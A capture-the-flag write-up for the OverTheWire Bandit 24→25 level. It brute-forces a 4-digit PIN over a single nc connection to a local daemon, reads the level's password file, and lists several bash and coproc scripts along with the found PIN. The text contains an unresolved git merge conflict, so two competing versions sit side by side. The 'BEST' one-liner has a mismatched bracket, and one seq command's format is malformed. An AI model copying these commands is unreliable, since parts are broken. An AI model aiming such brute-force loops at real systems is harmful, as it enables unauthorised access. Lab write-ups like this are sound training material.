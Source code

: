 # Write-up: Bandit 24 → 25
**Date:** 2025-08-16

## Obfuscated password (ROT13) 
`vPv86ggG4XFAr1nezXvjoDAzO3LWC3d4`

## OBJECTIVE
>"A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

>You do not need to create new connections each time"


## PURPOSE
We must brute-force a **4-digit PIN (0000–9999)**, but do it **over a single TCP connection** to `localhost:30002`. Each attempt is one line of the form:
```
<bandit24_password> <4-digit_pin>
```
The server replies “Wrong!” for bad guesses and prints the bandit25 password for the correct one. We’ll stream all guesses through one `nc` session and capture the response. First, we must get the current level’s password into a variable:
```bash
pass=$(cat /etc/bandit_pass/bandit24)
```

<<<<<<< HEAD
```
pass=$(cat /etc/bandit_pass/bandit24)
{ for pin in $(seq -w 0000 9999); do echo "$pass $pin"; done; } \
| nc localhost 30002 | grep -iv 'wrong'
```

=======
- Send all 10,000 guesses over **one** connection and save the transcript:
  ```bash
  { for pin in $(seq -w 0000 9999); do echo "$pass $pin"; done; } \
  | nc localhost 30002 | tee /tmp/b25.out
  ```
  > If your `nc` is GNU and doesn’t close after stdin ends, add `-q 1`:
  > ```bash
  > { for pin in $(seq -w 0000 9999); do echo "$pass $pin"; done; } \
  > | nc -q 1 localhost 30002 | tee /tmp/b25.out
  > ```
>>>>>>> origin/main

- Extract the winning line (not “Wrong!”):
  ```bash
  grep -iv 'wrong' /tmp/b25.out
  ```
  The output is the **bandit25** password. (Add its ROT13 to the header.)
## SOLUTIONS

	~BEST~
	coproc ncproc { nc localhost 30002; }; read -r <&"${ncproc[0]}"; for i in {0000..9999}; do echo "[previous password[ $i" >&"${ncproc[1]}"; read -r r <&"${ncproc[0]}"; [[ $r != Wrong* ]] && echo "[+] $i $r" && break; done


	~SECOND BEST~

	coproc ncproc { nc localhost 30002; } && IFS= read -r banner <&"${ncproc[0]}" && for pin in $(seq -w 0000 9999); do echo "[previous password] $pin" >&"${ncproc[1]}"; IFS= read -r res <&"${ncproc[0]}"; echo "$pin → $res"; [[ $res != "Wrong!"* && -n $res ]] && echo "[+] $pin" && break; done; exec {ncproc[0]}>&-; exec {ncproc[1]}>&-


	~OR~

	#!/bin/bash
	
	password="[previous password]"
	
	# Start nc once
	coproc ncproc { nc localhost 30002; }
	
	# Read and show banner
	IFS= read -r banner <&"${ncproc[0]}"
	echo "[Banner] $banner"
	
	# Bruteforce loop
	for pin in $(seq -w 0000 9999); do
	  attempt="${password} ${pin}"   # <-- space between password and PIN!
	  echo "$attempt" >&"${ncproc[1]}"
	  IFS= read -r response <&"${ncproc[0]}"
	
	  echo "$pin → $response" | tee -a seq25.txt
	
	  if [[ "$response" != "Wrong! Please enter the correct current password and pincode. Try again." && -n "$response" ]]; then
	    echo "[+] Success with PIN $pin"
	    break
	  fi
	done
	
	# Clean up
	exec {ncproc[0]}>&-
	exec {ncproc[1]}>&-

	~OR~

	seq -f "[previous password]0000 %04g" 2200 2300 | nc localhost 30002 | tee -a seq25.txt
	cat seq25.txt | uniq -u


	~END~

	echo "[previous password] 2219" | nc localhost 30002

---

Writeup author: **Jeremy Ray Jewell**  
[GitHub](https://github.com/jeremyrayjewell) • [LinkedIn](https://www.linkedin.com/in/jeremyrayjewell)
